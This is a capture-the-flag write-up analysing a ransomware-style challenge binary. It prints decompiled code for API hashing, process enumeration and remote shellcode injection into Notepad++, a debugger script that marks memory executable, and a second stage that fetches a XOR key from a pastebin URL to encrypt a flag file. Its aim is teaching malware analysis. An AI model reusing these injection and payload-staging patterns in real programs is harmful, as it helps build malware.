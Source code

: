 # Pwn - Ran Somewhere
- Solved by: @Elma
- Flag: **-UNKNOWN-**

## Writeup

This challenge acts as a malware/ransomware. I highly recommend this challenge for someone who enjoys or is looking into getting into malware analysis sortof stuff. This writeup doesn't go into every single small detail, so the reader is recommended to download and try analyzing it themselves.

We are provided with the malware itself, alongside what seems to be a flag file that has been encrypted by the malware. The challenge also hints at the malware having a broken shellcode loader.

Let's break this down into parts. In the first part of the code, the program does API resolution by matching for a corresponding function hash within a DLLs exports. This is a common malware technique, and can be identified by analyzing the code within.

> We can tell by analyzing the code for **sub_140011C0** where we see that it transverses the PEB and walk down the DLL and it's exports.
>
> We can further assert our assumption by checking it in a debugger. We can see that the function returns function pointers from DLLs.

```c
  v65 = (__int64 (__fastcall *)(void *, _QWORD, _QWORD, void *, _QWORD, _DWORD, _QWORD))sub_1400011C0(
                                                                                          argc,
                                                                                          2794307353i64,
                                                                                          envp);
  v5 = (__int64 (__fastcall *)(_QWORD, _QWORD))sub_1400011C0(v3, 0xA650376Bi64, v4);
  v63 = v5;
  v64 = (__int64 (__fastcall *)(__int64, _QWORD, __int64, __int64, int))sub_1400011C0(v6, 0xECFC793i64, v7);
```

The program enumerates through the processes that are running on the system.

```c
  if ( !K32EnumProcesses((DWORD *)v13, 0x1000u, &cbNeeded) )
    goto LABEL_69;
  // .. .truncated...
    if ( !K32EnumProcessModules(v28, &hModule, 8u, &v80) )
    {
      CloseHandle(v29);
      goto LABEL_50;
    }
    // ... truncated ...
    if ( K32GetModuleBaseNameA(v29, hModule, v30, 0x104u) )
    {
      // ... truncated ...
      if ( Size == v33 && !memcmp(v34, v30, Size) ) // some sort of comparison of process names
        break;
    }
```

We can see that it seems to be enumerating running processes, and looking for a particular process. If we breakpoint at the **memcmp** call, we will see that it is looking for a process named "notepad++".

In the next part of the program, it attempts to inject shellcode into the Notepad++ process.

```c
  // open process handle
  process_handle = ((__int64 (__fastcall *)(__int64, _QWORD, _QWORD))OpenProcess)(0x1FFFFFi64, 0i64, v38);
  // allocate RWX memory within opened process
  v43 = (void *)VirtualAllocEx(process_handle, 0i64, 1i64, 0x1000i64, PAGE_EXECUTE_READWRITE);
  // write shellcode into allocated memory
  WriteProcessMemory(v41, v43, &shellcode, 1ui64, 0i64) // nBytes = 1 ?!?!?
  v49 = (void *)CreateRemoteThread(v41, 0i64, 0i64, v44, 0i64, 0, 0i64); // execute shellcode in remote process
  // ...
  print(std::cout, "[*] Shellcode injected...");
  print(std::cout, "[*] Waiting for thread to die...");
  print(std::cout, "[*] Press enter to exit...");
  std::istream::get(std::cin);
```

However, we can notice that this form of shellcode injection is rather problematic. Firstly, the program only copies 1 byte of the shellcode into the remote process. The allocated memory also doesn't seem big enough to contain the entire shellcode.

That explains why the shellcode loading is problematic as mentioned from the challenge description. In order to get the shellcode to run, we can choose to extract the shellcode.

However being a lazy person, I took a slightly different approach. My plan is just to jump to the shellcode at runtime using a debugger.

```c
.data:0000000140007050 shellcode:                              ; DATA XREF: main+589↑o
.data:0000000140007050                 call    sub_140012015
```

From IDA, we can identify that the shellcode is within the `.data` section which is not executable memory. In order to jump to the shellcode, we want to make sure to modify the memory permissions to be executable.

```py
# after entering debug mode in IDA, breakpoint at the first instruction in main

virt = ida_idd.Appcall.proto("kernel32_VirtualProtect", "BOOL __stdcall VirtualProtect(LPVOID addr, DWORD sz, DWORD newprot, PDWORD oldprot);")

shellcode = 0x7FF777A57050

virt(shellcode, 0x10000, 0x40, shellcode-0x8) # virtualprotect shellcode into RWX memory
```

We can then jump to the shellcode by using the `Ctrl+N` hotkey. The shellcode initially seems to be very complicated, and I wasn't sure what was going on either. But after clicking for abit, I found that it was decrypting some data within the program. And then I came across this:

```
000001377D3D1280  00 00 00 00 00 98 00 00  4D 5A 90 00 03 00 00 00  ........MZ......
000001377D3D1290  04 00 00 00 FF FF 00 00  B8 00 00 00 00 00 00 00  ................
000001377D3D12A0  40 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  @...............
000001377D3D12B0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000001377D3D12C0  00 00 00 00 F8 00 00 00  0E 1F BA 0E 00 B4 09 CD  ................
000001377D3D12D0  21 B8 01 4C CD 21 54 68  69 73 20 70 72 6F 67 72  !..L..This progr
000001377D3D12E0  61 6D 20 63 61 6E 6E 6F  74 20 62 65 20 72 75 6E  am cannot be run
000001377D3D12F0  20 69 6E 20 44 4F 53 20  6D 6F 64 65 2E 0D 0D 0A   in DOS mode....
```

Seems like there is yet another embedded executable within the shellcode. We can dump out this executable from memory and reverse it. You can find the dumped exe in the appcode folder.

```c
URLOpenBlockingStreamW(0i64, L"https://pastebin.com/raw/2xzffw3K", &v27, 0, 0i64);
// ...
copy_str(v29, "flag.txt", 8ui64);
read_file(&flag_handle, v29);
xor_encrypt(Src, &flag_handle, (__int64 *)v39);
// ...
copy_str(lpText, "You have been pwned !! XD", 0x19ui64);
v14 = (const CHAR *)lpText;
if ( v35.m128i_i64[1] >= 0x10ui64 )
  v14 = lpText[0];
MessageBoxA(0i64, v14, "??????", 0);
// ...
```

Although the reversing is not 100% certain, we can guess the behaviour of this program

- Read `flag.txt` file contents
- Encrypt the contents of `flag.txt`
- Write the encrypted contents to `flag.YIKES.txt`

If we look at the contents of the pastebin link, we have this string `c405d216`. If we use this as the XOR key, we will obtain the flag.

Decryption found [here](https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'UTF8','string':'c405d216'%7D,'Standard',false)&input=MGBxeyBxfngYY1gFO0AFeDwBX3hXZXlzEXEPSG4).
